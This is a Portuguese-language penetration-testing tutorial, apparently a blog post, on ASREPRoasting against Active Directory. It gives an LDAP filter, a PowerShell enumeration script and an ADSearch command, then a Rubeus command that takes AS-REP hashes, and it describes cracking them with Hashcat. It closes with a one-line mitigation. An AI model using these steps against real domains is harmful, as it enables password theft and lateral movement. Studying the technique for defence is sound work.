 ```yaml
---
title: "ASREPRoasting"
excerpt: "Teoria e prática sobre ASREPRoasting."
categories:
  - Hacking
tags:
  - ASREPRoasting
  - Active Directory
  - SPN
  - LDAP
  - ADSearch
  - Rubeus
  - Hahscat

toc: true
---
```


## Teoria

ASREPRoasting é um ataque no ambiente do Active Directory que explora um recurso do protocolo de autenticação Kerberos chamado AS-REP (Authentication Service Reply).

As contas que não necessitam de pré-autenticação (atributo  DONT_REQ_PREAUTH ativado) estão suscetíveis a esse tipo de ataque. Um invasor pode solicitar um ticket Kerberos KRB_AS_REQ sem o autenticador para qualquer usuário que não tenha o recurso de pré-autenticação habilitado.

Em posse da resposta KRB_AS_REP do controlador de domínio, o invasor pode descobrir a senha da vítima com ataque de força bruta offline, usando John The Ripper com o modo `krb5asrep` ou com Hashcat.

**OBS: Com a senha, a movimentação lateral se torna possível.**

![Untitled](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/a4b7ca11-3a48-40f7-9d40-0729fcc7f9d5)

## Extração de Contas Sem Pré-autenticação com LDAP

Pode-se realizar um filtro LDAP para extrair as contas que não necessitam de pré-autenticação Keberos:


```powershell
(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304)
```

![Untitled 1](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/53d7eea2-028a-4c9c-adcf-3939d025d04e)

![Untitled 2](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/86342000-9f25-4563-b951-7d68a08e7ddb)

Essas são as 3 contas sem pré-autenticação.

## Extração de Contas Sem Pré-autenticação com Powershell

O mesmo filtro será usado através de um script poweshell.

```powershell
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$search.Filter = "(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"
$results = $search.FindAll()

foreach ($result in $results) {
    $userEntry = $result.GetDirectoryEntry()
    $uac = $userEntry.Properties["userAccountControl"].Value
    $doNotReqKerbPreauth = if ($uac -band 4194304) { $true } else { $false }

    Write-Host "User : " $userEntry.name "(" $userEntry.distinguishedName ")"
    Write-Host "DoNotReqKerbPreauth : $doNotReqKerbPreauth"
    Write-Host ""
}
```

![Untitled 3](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/0f119196-d44d-480a-83c2-80c3a52f13b7)

## Extração de Contas Sem Pré-autenticação com ADSearch

```powershell
ADSearch.exe --search "(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
```

![Untitled 4](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/a993229e-1e96-4d81-932d-aa9f46bfcdf0)

## Ataque

O ASREPRoasting pode ser realizado através do Rubeus:

```powershell
Rubeus.exe asreproast /nowrap
```

- A opção “nowrap” remove a quebra de linha (não obrigatório).

![Untitled 5](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/eb2a16b1-7f98-4d79-bdbc-aec11f914cd1)

## Quebrando a Senha

O Hashcat será usado para quebrar a senha.

![Untitled 6](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/33dd8409-071b-49e6-9e37-4320447b14ff)

- A configuração “-m 18200” é para quebrar senhas Kerberos 5 AS-REP (etype 23).
- O arquivo “maxraybrandt-asreproast” possui o hash encontrado.
- O arquivo “pass” contém as possíveis senhas.

![Untitled 7](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/b6ee7bb4-334d-4f80-9909-7104339c9864)

## Medidas de Proteção

Ativar a pré-autenticação Kerberos para todos os usuários.